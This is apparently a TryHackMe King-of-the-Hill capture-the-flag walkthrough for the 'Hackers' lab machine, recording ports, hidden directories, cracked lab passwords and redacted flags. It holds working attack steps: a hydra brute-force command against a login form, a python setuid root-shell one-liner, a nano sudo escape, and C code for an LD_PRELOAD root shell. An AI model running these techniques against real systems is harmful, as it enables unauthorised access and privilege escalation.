 # KOTH HACKERS<br />

-------------
## IP: `10.10.68.205`<br />

----------------------
### Open Ports -<br />

```
21
22
80
9999
```

----------------------
#### hidden directories -<br />

```
/news
/contact
/img
/staff
/backdoor
```

----------------------
> first flag -<br />

```
thm{b6.............................}
```
`in the source code of default page on port 80`<br />

> second flag -<br />

```
thm{67.............................}
```
`in the hidden files on anonymous login with ftp ls  -la`<br />

-----------------------
##### Credentials -<br />


username: rcampbell<br />
password: cinderella<br />

username: gcrawford<br />
password: evelina<br />

`via hydra`<br />

-----------------------
> third flag -<br />

```
thm{12.............................}
```
`in the hidden files in ftp login with rcampbell ls -la` <br />

-----------------------
##### Login via ssh with rcampbell and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

##### Crack the passphrase for `id_rsa` of gcrawford<br />

```
id_rsa:stephani
```
##### privilege escalation of `gcrawford` user cuz of sudo ability over `nano`<br/>

We can see nano's [Gtfo-Bins](https://gtfobins.github.io/gtfobins/nano/)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
##### Crack the password for [backdoor](http://10.10.68.205/backdoor)<br />

username: plague<br />
password: tonyhawk<br />

```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.68.205 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"
```

##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using this c code -<br />

Check out this blog for more on it [ld_preload-privesc](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

`gcc -o shell.so shell.c`


```
sudo openssl req -engine ./shell.so
```

-----------------------
> fourth flag - <br />

```
thm{b9.............................}
```
`in the root directory`<br />
> fifth flag -<br />

```
thm{d8.............................}
```
`in the home directory of gcrawford, within business.txt`<br />

> sixth flag - <br />

```
thm{87.............................}
```
`in the home directory of production`<br />

> seventh flag - <br />

```
thm{3c.............................}
```
`in the home directory of tryhackme`<br />

> eighth flag -

```
thm{21.............................}
```
`in /etc/vsftpd.conf`<br />

> ninth flag -

```
thm{06.............................}
```
`in /etc/ssh/sshd_config`
